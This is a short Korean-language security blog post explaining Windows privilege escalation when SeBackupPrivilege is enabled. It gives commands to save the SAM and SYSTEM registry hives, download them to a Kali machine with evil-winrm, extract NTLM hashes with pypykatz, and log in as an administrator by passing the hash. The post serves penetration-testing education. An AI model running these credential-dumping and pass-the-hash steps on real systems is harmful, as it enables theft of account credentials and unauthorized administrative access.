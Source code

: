 ```yaml
---
layout: post
title: 백업 권한을 이용한 윈도우 권한 상승
subtitle: SeBackupPrivilege가 있을 때 권한 상승 방법
category: knowledge
thumbnail-img: /assets/img/knowledge/backuppriv.png
tags: [windows, SeBackupPrivilege]
author: Hong
---
```

이번 포스팅에서는 아래 이미지와 같이 SeBackupPrivilege가 활성화되어 있는 경우 권한 상승하는 방법에 대해 써보겠다.

![SeBackupPrivilege](/assets/img/knowledge/backuppriv.png)

참고로 위의 권한은 `whoami /priv나 /all 명령어로 확인 할 수 있다.`
# sam, system 파일을 가져오기

이 수법의 특징은 모든 파일을 읽을 수 있다는 것.

다음과 같은 명령어를 입력한다.
```powershell
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
템프 디렉토리에 sam파일과 system파일을 저장한다.

kali에 위 파일들을 가져오기 위해 evil-winrm같은 툴로 다운로드 한다.
```powershell
cd Temp
download sam
download system
```
# NTLM 해쉬 추출
파일들을 옮겼으면 해쉬를 추출하기 위해 pypykatz를 이용한다.

이렇게 하는 이유는 윈도우에서 mimikatz를 관리자 권한으로 실행 할 수 없기 때문.

`pypykatz registry --sam sam system`

실행하면 아래와 같이 유저와 그에따른 해쉬값이 추출되어 나타난다.
![NTLMhash](/assets/img/knowledge/NTLMhash.png)
위의 해쉬값을 이용하여 관리자 권한을 가진 유저로 로그인한다.

`evil-winrm -i 192.168.x.x -u raj -H <해쉬>`

이렇게해서 백업 권한을 가진 경우 민감한 파일을 복사해 kali로 옮긴 후 해쉬를 추출해보았다.

참고자료:https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/